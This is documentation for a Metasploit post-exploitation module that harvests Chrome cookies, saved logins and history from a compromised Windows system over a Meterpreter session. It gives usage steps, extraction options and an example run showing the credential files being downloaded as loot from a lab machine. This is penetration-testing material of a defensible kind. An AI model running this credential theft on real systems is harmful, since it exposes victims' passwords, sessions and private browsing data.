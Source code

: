 ## Module Description

This post-exploitation module gathers artifacts found on Chrome related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/chrome
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
### Default Output
  ```
msf post(windows/gather/credentials/chrome) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Chrome's parent folder found
[*] Chrome's Cookies file found
[*] Downloading C:\Users\IEUser\AppData\Local\Google\Chrome\User Data\Default\Cookies
[*] Chrome Cookies downloaded
[+] File saved to:  /root/.msf4/loot/20210513135138_default_192.168.56.106_chromeCookies_228131.bin

[*] no such table: cookiess
[*] Chrome's parent folder found
[*] Chrome's Login data file found
[*] Downloading C:\Users\IEUser\AppData\Local\Google\Chrome\User Data\Default\Login Data
[*] Chrome Login data downloaded
[+] File saved to:  /root/.msf4/loot/20210513135138_default_192.168.56.106_chromeLoginData_686416.bin

[+] File with credentials saved:  /root/.msf4/loot/20210513135139_default_192.168.56.106_EXTRACTIONSLogin_188262.bin
[*] Chrome's parent folder found
[*] Chrome's History file found
[*] Downloading C:\Users\IEUser\AppData\Local\Google\Chrome\User Data\Default\History
[*] Chrome History downloaded
[+] File saved to:  /root/.msf4/loot/20210513135139_default_192.168.56.106_chromeHistory_527301.bin

[*] no such column: lower_term
[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```
